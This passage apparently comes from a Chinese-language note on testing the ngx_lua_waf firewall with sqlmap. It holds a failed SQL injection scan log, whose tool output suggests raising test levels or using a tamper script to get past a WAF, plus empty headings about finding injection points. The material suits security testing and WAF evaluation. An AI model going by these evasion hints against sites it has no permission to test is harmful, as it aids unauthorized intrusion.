[14:58:08] [ERROR] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment'), skipping to the next URL
[14:58:08] [INFO] you can find results of scanning in multiple targets mode inside the CSV file 'C:\Users\cmk\.sqlmap\output\results-09112017_0258pm.csv'
```


## 寻找注入点
> 必须使用谷歌翻墙



## ngx_lua_waf效果显示




